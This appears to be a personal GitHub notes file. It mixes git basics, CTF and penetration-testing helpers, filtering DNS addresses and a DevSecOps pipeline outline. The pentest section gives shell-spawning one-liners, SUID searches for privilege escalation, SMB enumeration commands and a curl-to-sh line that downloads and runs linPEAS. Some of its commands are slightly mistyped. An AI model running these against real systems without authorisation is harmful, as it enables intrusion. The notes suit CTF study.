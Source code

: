 # Random
Just a zunk of notes

###  Github command

```bash
git init                                                      
git remote add origin "Paste the link of the github"          
git remote -v                                                 
git add .                                                     
git commit -m "Name of the tool/subjet"                       
git push origin master.
```
### CTF Helper
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
```bash
https://gtfobins.github.io/
```
```bash
https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
```
### Python TTY Shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```
### Bash Shell
```bash
echo os.system('/bin/bash')
```
### shell-PostExploitation
```bash
find / -perm -u=s -type f 2>/dev/null
```
### To clear terminal after spwanning shell
```bash
export TERM=xterm
```
### Auto-complete fuction after gettting shell
```bash
stty raw - echo ; fg 
```
### Abusing SUID 
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
### Find Flags
```bash
→ find | grep flag 
→ find / -type f -name user.txt
→ find / -type -f name **name of the flag you want**
→ search -f flag*.txt #This will find the name called flag with file extension txt
```
### Quick Linux Privilege Escalataion
```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
→ chmod +x linpeas.sh 
→ ./linpeas.sh
```
### Enumerating SMB
```bash
enum4linux 192.168.1.40
```
```bash
nmap --script smb-os-discovery IP-Address
```
```bash
smbmap -H IP-Address
```
```bash
smbclient -L IP-Address
smbclient //IP-Address/User-Found-In-Disk
```
```bash
net view \\IP-Address /All
```
### Change DNS for blocking malware and adult content
#### Malware and Adult content
```bash
Primary DNS : 1.1.1.3
Secondary DNS : 1.0.0.3
```
#### Malware Blocking Only
```bash
Primary DNS : 1.1.1.2
Secondary DNS : 1.0.0.2
```
###  𝐖𝐡𝐚𝐭 𝐝𝐨𝐞𝐬 𝐃𝐞𝐯𝐒𝐞𝐜𝐎𝐩𝐬 𝐂𝐈/𝐂𝐃 𝐩𝐢𝐩𝐞𝐥𝐢𝐧𝐞 𝐥𝐨𝐨𝐤 𝐥𝐢𝐤𝐞?

```bash

🔹 1- 𝐏𝐥𝐚𝐧/𝐃𝐞𝐬𝐢𝐠𝐧
1.1 Threat modeling:
1.2 Secure SDLC

🔹2-𝐃𝐞𝐯𝐞𝐥𝐨𝐩
The Development stage starts with writing code and we can use shift-left security best practice which incorporates security thinking in the earliest stages of development.

2.1-Install linting tools inside the code editor like Visual Studio Code. One of the most popular linting tools is SonarLint. Which highlights bugs and security vulnerabilities as you write code.
-Use Pre-commit hooks to prevent adding any secrets to code.
-Setup Protected branch and code reviews process.
-Sign git commit with GPG key.
-Always verify the downloaded binary/file hash.
-Enable 2-factor authentication.

🔹3-𝐁𝐮𝐢𝐥𝐝 𝐚𝐧𝐝 𝐂𝐨𝐝𝐞 𝐚𝐧𝐚𝐥𝐲𝐬𝐢𝐬
3.1 Scan for secrets and credentials
3.2 Software Bill of Materials (SBOM)
3.2.1 Syft with Grype and Trivy
3.2.2 OWASP Dependency-Check
3.3 Static Application Security Testing (SAST)
3.4 Unit test
3.5 Dockerfile static scanning
3.6 Container image scan
3.7 Container image signing and verifying 
3.8 Container image validation test

🔹4-𝐓𝐞𝐬𝐭
4.1 Smoke test
4.2 API testing
4.3 Dynamic application security testing (DAST)

🔹5-𝐃𝐞𝐩𝐥𝐨𝐲
5.1 Static scan of Kubernete manifest file or Helm chart
5.2 Pre-deploy policy check Kubernete manifest YAML file
5.3 kube-bench for CIS scan
5.4 IaC scanning:

🔹6-𝐌𝐨𝐧𝐢𝐭𝐨𝐫 𝐚𝐧𝐝 𝐀𝐥𝐞𝐫𝐭
Monitoring and Alerting
6.1 Metrics monitoring
6.2 Log monitoring
6.3 Alerting
```
